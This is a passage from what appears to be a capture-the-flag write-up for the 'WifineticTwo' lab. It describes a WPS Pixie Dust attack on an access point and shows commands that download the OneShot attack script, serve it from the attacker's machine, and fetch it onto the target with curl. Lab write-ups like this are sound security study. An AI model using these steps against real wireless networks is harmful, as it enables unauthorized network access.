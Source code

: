 ![](/assets/WifineticTwo/8.png)
<br />
<br />

This AP has WPS enabled, so we can try a pixie attack, to do this, I searched for a [script](https://raw.githubusercontent.com/kimocoder/OneShot/master/oneshot.py) that perform this attack, downloaded it and transfer it:

```bash
Kali> wget https://raw.githubusercontent.com/kimocoder/OneShot/master/oneshot.py
Kali> sudo python3 -m http.server 80
Target> curl -O http://10.10.16.12/oneshot.py
```
<br />
